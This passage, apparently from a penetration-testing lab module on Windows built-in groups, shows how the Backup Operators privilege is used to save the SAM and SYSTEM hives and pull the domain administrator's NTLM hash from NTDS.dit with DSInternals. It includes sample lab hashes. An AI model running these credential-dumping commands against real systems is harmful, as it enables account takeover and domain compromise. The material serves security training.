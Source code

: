 #### Backing up SAM and SYSTEM Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`

Windows Built-in Groups

```cmd-session
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```

It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the `FILE_FLAG_BACKUP_SEMANTICS` flag is specified.

#### Extracting Credentials from NTDS.dit

With the NTDS.dit extracted, we can use a tool such as `secretsdump.py` or the PowerShell `DSInternals` module to extract all Active Directory account credentials. Let's obtain the NTLM hash for just the `administrator` account for the domain using `DSInternals`.

Windows Built-in Groups

```powershell-session
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
Sid: S-1-5-21-669053619-2741956077-1013132368-500
Guid: f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName: Administrator
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False
LastLogonDate: 5/6/2021 5:40:30 PM
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-669053619-2741956077-1013132368-512
Secrets
  NTHash: cf3a5525ee9414229e66279623ed5c58
  LMHash:
  NTHashHistory:
  LMHashHistory:
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: 7790d8406b55c380f98b92bb2fdc63a7
    Kerberos:
```